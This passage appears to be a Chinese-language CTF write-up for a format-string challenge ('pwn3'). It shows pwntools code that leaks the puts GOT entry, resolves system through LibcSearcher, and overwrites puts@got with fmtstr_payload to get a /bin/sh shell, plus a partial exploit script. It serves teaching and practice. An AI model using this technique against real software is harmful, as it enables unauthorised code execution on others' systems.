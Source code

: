 - 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。

采用pwntools 的

```
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got)) 这个地方写 8是因为 写入得数据为  AAAA（7）gotaddr(8)
puts_addr = u32(get('1111')[:4])  在内存中获取puts地址

libc = LibcSearcher("puts", puts_addr)   通过内存偏移 来计算  文件偏移
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset   计算出 system偏移
```



```
PWNtools 特有的函数
fmtstr_payload(7, {puts_got: system_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts_got 地址处写入 system_addr 地址
```

- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

通过再次执行listdir 就可以执行被覆盖的system 函数  传参 /bin/sh 直接执行命令。



则与程序交互的步骤就是 

1. 通过 put  get   获取 got表地址
2. 通过根据libc计算system偏移
3. 通过 put get 进行覆盖 system
4. 执行 put  传递参数 %s 进去  执行  listdir



exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


def show_dir():
    sh.sendline('dir')

```